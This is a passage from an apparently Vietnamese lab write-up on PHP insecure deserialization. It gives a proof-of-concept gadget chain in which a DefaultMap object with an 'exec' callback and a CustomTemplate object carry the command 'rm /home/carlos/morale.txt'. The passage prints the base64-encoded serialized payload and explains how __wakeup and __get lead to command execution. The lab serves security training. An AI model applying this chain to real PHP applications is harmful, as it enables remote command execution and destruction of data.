 ```
$b = new DefaultMap("exec");

$a = new CustomTemplate();

$a->default_desc_type="rm /home/carlos/morale.txt";

$a->desc = $b;

$poc = serialize($a);

echo base64_encode($poc);

?>

- ![image](https://hackmd.io/_uploads/HJVOBl5Ra.png)


```

- giải thích một chút nha ở đây sau khi deserial thì sẽ gọi đến magic method ``__wakeup()`` sau đó tiến hành gọi method `build_product` tiến hành gán giá trị cho thuộc tính `product` là khởi tạo đối tượng từ class `Product` truyền vào 2 giá trị `$this->default_desc_type, $this->desc` sau đó tiến hành gán giá trị `desc` bằng giá trị ``$desc->$default_desc_type`` nhưng mà như POC ở trên ta không có thuộc tính `default_desc_type` của $desc được khởi tạo vì mình gán nó bằng đối tượng được khởi tạo từ `DefaultMap` rồi vì vậy cho nên lúc này server sẽ hiểu là phải gọi đến thuộc tính của đôi tượng từ `DefaultMap` này mà nó không tồn tại cho nên magic method `__get($name)` sẽ được gọi để gọi đến hàm `call_user_func` với 2 tham số là `callback="exec"` và `name=` sẽ có giá trị là `default_desc_type` vì vậy nên hàm thực thi xóa file morale.txt trong thư mục home trên máy chủ của `carlos` sẽ bị xóa và bài lab được solved.

- ![image](https://hackmd.io/_uploads/BJEeLx506.png)

- `TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTc6ImRlZmF1bHRfZGVzY190eXBlIjtzOjI2OiJybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7czo0OiJkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjg6ImNhbGxiYWNrIjtzOjQ6ImV4ZWMiO319`

- ![image](https://hackmd.io/_uploads/S1BZIg5Ra.png)

- ![image](https://hackmd.io/_uploads/ryKZ8e5Ap.png)

- ![image](https://hackmd.io/_uploads/S1dMIxcCT.png)
